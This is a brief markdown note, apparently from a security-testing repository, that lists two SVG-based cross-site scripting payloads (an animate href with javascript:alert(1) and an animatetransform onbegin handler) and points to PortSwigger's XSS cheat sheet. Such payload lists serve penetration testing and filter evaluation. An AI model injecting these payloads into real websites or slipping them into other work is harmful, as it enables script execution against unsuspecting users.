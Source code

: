 ## Something to keep in mind.

For complete list refer the burpsuite cheatsheet:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Unique Payloads:

- `<svg>`
  - `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`
  - `<svg><animatetransform onbegin=alert(1)>`
